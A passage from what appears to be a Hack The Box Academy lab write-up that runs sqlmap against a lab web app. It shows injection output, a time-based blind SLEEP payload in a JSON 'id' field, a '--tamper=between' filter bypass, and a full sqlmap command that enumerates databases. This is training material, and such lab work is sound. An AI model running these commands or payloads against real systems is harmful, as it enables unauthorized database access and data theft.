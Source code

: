 ```ps
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:27:06] [INFO] fetched data logged to text files under '/home/htb-ac-1889896/.local/share/sqlmap/output/94.237.60.55'
[23:27:06] [WARNING] your sqlmap version is outdated

[*] ending @ 23:27:06 /2025-08-23/
```

As we can see, the command gives us this:
```ps
[23:27:01] [WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to rerun with the '--tamper=between'
```
That means we need to bypass WAF/IPS solutions with `--tamper=between`, this works by replacing all occurrences of the greater than operator (`>`) with `NOT BETWEEN 0 AND #`, and the equals operator (`=`) with `BETWEEN # AND #`. This way, many primitive protection mechanisms (focused mostly on preventing XSS attacks) are easily bypassed, at least for SQLi purposes.

We also get this log:
```ps
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2203 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 3085 FROM (SELECT(SLEEP(5)))sfIq)"}
---
```
This means that the page is vulnerable.

## Step 4 "Get Databases"
Now that we know the page is vulnerable, we can try getting all the databases with `--dbs`
```ps
┌─[us-academy-6]─[10.10.15.4]─[htb-ac-1889896@htb-hxqshubmjv]─[~]
└──╼ [★]$ sqlmap -u 'http://94.237.60.55:40755/action.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:40755/shop.html' -H 'Content-Type: application/json' -H 'Origin: http://94.237.60.55:40755' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Priority: u=0' --data-raw '{"id":1}' --batch --tamper=between --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:30:51 /2025-08-23/

[23:30:51] [INFO] loading tamper module 'between'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[23:30:51] [INFO] resuming back-end DBMS 'mysql' 
[23:30:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
```